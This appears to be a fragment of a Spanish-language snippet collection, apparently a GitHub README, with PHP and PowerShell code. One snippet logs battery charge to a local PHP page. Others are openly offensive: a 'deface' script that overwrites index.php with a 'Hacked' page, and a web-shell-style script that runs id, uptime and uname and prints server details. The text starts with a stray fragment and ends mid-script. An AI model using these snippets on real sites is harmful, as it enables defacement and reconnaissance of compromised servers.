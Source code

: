 ```PHP
?>
```

### Almacenar en un fichero informacion sobre la batería del equipo ejecutando un fichero en PHP desde un servidor remoto

#### Código de la petición de batería (PowerShell)
```PowerShell
Invoke-WebRequest ("http://localhost/index.php?valor=" + ((Get-WmiObject Win32_Battery).EstimatedChargeRemaining) + "&hora=" + (Get-Date))
```

#### Código de la web (PHP)
```PHP
<?php
	$valor = $_GET["valor"];
	$hora = $_GET["hora"];

	$file = fopen("archivo.txt", "w");
	fwrite($file, $hora . "*" . $valor . PHP_EOL);
	fclose($file);

	$file = fopen("archivo.txt", "r");
	
	while(!feof($file)) {
		echo fgets($file). "<br />";
	}

	fclose($file);
?>
```

### Realizar un deface
```PHP
<?php
	$fp=fopen("index.php","w+");

	fwrite($fp,"<title>Hacked</title>\n");
	fclose($fp);
?>
```

### Obtener información del sistema
```PHP
<?php
	$alb = @php_uname();
	$alb2 = system(uptime);
	$alb3 = system(id);
	$alb4 = @getcwd();
	$alb5 = getenv("SERVER_SOFTWARE");
	$alb6 = phpversion();
	$alb7 = $_SERVER['SERVER_NAME'];
	$alb8 = gethostbyname($SERVER_ADDR);
	$alb9 = get_current_user();
	$os = @PHP_OS;

	echo "os: $os<br>";
	echo "uname -a: $alb<br>";
	echo "uptime: $alb2<br>";
	echo "id: $alb3<br>";
	echo "pwd: $alb4<br>";
	echo "user: $alb9<br>";
	echo "phpv: $alb6<br>";
```